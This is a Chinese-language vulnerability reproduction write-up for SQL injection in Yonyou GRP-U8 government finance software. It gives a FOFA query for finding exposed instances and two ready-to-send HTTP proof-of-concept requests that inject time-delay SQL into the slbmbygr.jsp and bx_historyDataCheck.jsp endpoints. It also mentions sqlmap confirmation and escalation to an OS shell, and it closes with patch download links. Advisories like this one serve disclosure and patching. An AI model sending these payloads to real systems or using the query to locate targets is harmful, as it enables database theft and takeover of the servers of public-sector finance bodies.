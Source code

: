 
# 用友GRP-U8 SQL注入漏洞复现

### 0x01 产品简介

    用友GRP-U8R10行政事业[财务管理](https://so.csdn.net/so/search?q=%E8%B4%A2%E5%8A%A1%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

 用友GRP-U8的bx\_historyDataCheck jsp、slbmbygr.jsp等接口存在SQL注入漏洞，由于用友GRP-U8未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞，进一步利用可造成主机失陷。

### 0x03 影响范围

用友GRP-U8R10 U8Manager B、C、G 系列产品 < 20230905

### 0x04 复现环境

FOFA：app="用友-GRP-U8"

![](assets/1698896249-edaf919c717165a5a368aa4eebcc4e7d.png)

### 0x05 漏洞复现

PoC-1

```cobol
GET /u8qx/slbmbygr.jsp?gsdm=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: your-ip
```

延时5秒

![](assets/1698896249-b5a2f434ce98fe738cea813113c65cdc.png)

Sqlmap验证

![](assets/1698896249-ed6d0f831e46585a76b497b4f7df501d.png)

PoC-2

```cobol
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

userName=';WAITFOR DELAY '0:0:6'--&class.module.classLoader.DefaultAssertionStatus=
```

 延时6秒

![](assets/1698896249-7a34c8453971549cf858d59a2b97ed0a.png)

利用os-shell命令执行

![](assets/1698896249-fad835809574dc9e2da5165bde02c05a.png)

### 0x06 修复建议

目前官方已发布更新补丁，获取安全补丁方式如下：

1\. 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA 提取码：n1xy

2\. 用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY密码：a61h

下载【20230905-关于用友GRP-U8 bx\_historyDataCheck jsp存在SQL注入漏洞的解决方案.zip】

更新用友GRP-U8 Manager产品的2023年10月份（日期大于等于均可）标准补丁也可以修复此问题。
